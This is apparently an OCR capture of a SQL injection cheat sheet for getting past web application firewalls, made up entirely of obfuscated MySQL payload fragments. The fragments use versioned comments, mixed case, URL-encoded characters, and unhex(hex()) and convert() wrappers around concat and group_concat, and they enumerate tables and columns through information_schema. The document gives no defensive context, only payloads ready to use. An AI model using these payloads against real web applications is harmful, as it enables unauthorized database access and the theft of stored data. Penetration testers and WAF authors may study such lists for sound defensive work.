 [~] information_schema.tables [~]

/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=schEMA()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like schEMA()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=database()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like database()-- -
/*!FrOm*/+%69nformation_schema./**/columns+/*!50000Where*/+/*!%54able_name*/=hex table
/*!FrOm*/+information_schema./**/columns+/*!12345Where*/+/*!%54able_name*/ like hex table 

[~] concat() [~]

CoNcAt()
concat() 
CON%08CAT()
CoNcAt()
%0AcOnCat()
/**//*!12345cOnCat*/
/*!50000cOnCat*/(/*!*/)
unhex(hex(concat(table_name)))
unhex(hex(/*!12345concat*/(table_name)))
unhex(hex(/*!50000concat*/(table_name)))

[~] group_concat() [~]

/*!group_concat*/()
gRoUp_cOnCAt()
group_concat(/*!*/)
group_concat(/*!12345table_name*/)
group_concat(/*!50000table_name*/)
/*!group_concat*/(/*!12345table_name*/)
/*!group_concat*/(/*!50000table_name*/)
/*!12345group_concat*/(/*!12345table_name*/)
/*!50000group_concat*/(/*!50000table_name*/)
/*!GrOuP_ConCaT*/()
/*!12345GroUP_ConCat*/()
/*!50000gRouP_cOnCaT*/()
/*!50000Gr%6fuP_c%6fnCAT*/()
unhex(hex(group_concat(table_name)))
unhex(hex(/*!group_concat*/(/*!table_name*/)))
unhex(hex(/*!12345group_concat*/(table_name)))
unhex(hex(/*!12345group_concat*/(/*!table_name*/)))
unhex(hex(/*!12345group_concat*/(/*!12345table_name*/)))
unhex(hex(/*!50000group_concat*/(table_name)))
unhex(hex(/*!50000group_concat*/(/*!table_name*/)))
unhex(hex(/*!50000group_concat*/(/*!50000table_name*/)))
convert(group_concat(table_name)+using+ascii)
convert(group_concat(/*!table_name*/)+using+ascii)
convert(group_concat(/*!12345table_name*/)+using+ascii)
convert(group_concat(/*!50000table_name*/)+using+ascii)
CONVERT(group_concat(table_name)+USING+latin1)
CONVERT(group_concat(table_name)+USING+latin2)
CONVERT(group_concat(table_name)+USING+latin3)
CONVERT(group_concat(table_name)+USING+latin4)
CONVERT(group_concat(table_name)+USING+latin5)
